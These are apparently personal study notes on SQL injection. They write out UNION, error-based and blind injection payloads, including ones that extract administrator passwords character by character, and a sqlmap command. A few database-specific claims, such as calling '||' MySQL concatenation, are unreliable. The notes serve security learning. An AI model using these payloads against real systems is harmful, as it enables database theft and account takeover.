 ### SQL Injection

Cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**Places to look for SQL injection**
- Can be anywhere, really
- Look for places that would commonly interact with a database
  - Authentication, queries, tracking cookies, etc.
- With BlindSQLi, it can sometimes be pretty hard to tell (missing content can be indicative of simply incorrect values, not SQLi), so I suppose just pass every request through sqlmap
  - Use `*` to indicate where to inject
  - `sqlmap -u {endpoint} --cookie "{vulnerable_cookie}=*" --dbs`

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`

**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version: 
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Verbose Error Message SQL Injection**
- `CAST` is a useful tool for dumping column data in error messages
  - `CAST((SELECT example_column FROM example_table) AS int)` will yield something like `Invalid syntax: "{column_data} is not an integer"`
  - Example: `' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--` (check if 1 = integer of string data)

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR verbose error messages are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since we want to confirm the query was injected and returned the same results 
  - Can sub `' AND '1'='2` to procure an error
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - Figuring out tables:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' LIMIT 1)='a` to see if there is a user table (a = a if users exists)
  - Figuring out table columns:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' AND column_name='username' LIMIT 1)='a` to see if there is a "username" column
  - Figuring out column content:
    - `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` to see if there is an "administrator" user 
  - Figuring out conditional table content:
    - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` to see if the first letter of the administrator's password is "a"
      - Change `(password,1,1)` to `(password,2,1)` to check the second character
      - Alternate: `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
        - Might not work if strings can't be compared, but can allow a binary search
      - Can be `SUBSTR` with some databases - refer to cheat sheet

**Error-based SQL Injection**
- Similar to response-based SQLi, where we can infer the result of the query based on an application error
- We'll often need to check whether or not we're injecting into a true or false boolean condition:
  - These are heavily database-dependent; be sure to use cheat sheet
  - `' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` will evaluate to true
  - `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` will evaluate to false
- Based on the condition needed, we can use the following to exfiltrate characters
  - `' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE 'a' END FROM users)='a`
    - Also heavily dependent on database; for Oracle it would be something like `' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='0') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a`
    - Can substitute with `> 'm'` if accepted by the database
  - Intruder can do this quite well with a cluster-bomb attack (iterate all payload combinations for all positions)

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes

